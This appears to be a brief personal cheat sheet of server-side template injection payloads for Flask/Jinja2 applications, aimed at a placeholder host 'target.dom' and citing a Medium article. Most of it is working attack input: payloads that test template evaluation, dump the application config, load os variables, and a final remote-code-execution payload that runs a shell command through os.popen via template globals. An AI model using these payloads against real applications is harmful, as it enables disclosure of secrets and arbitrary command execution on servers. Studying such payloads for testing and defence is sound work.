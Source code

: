 ## temp notes
http://target.dom/{{1+1}}
http://target.dom/{{config.items()}}

add os vars
http://target.dom/{{config.from_object('os')}}
http://target.dom/{{config.items()}}

https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee

rce
{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen(\'id\').read()}}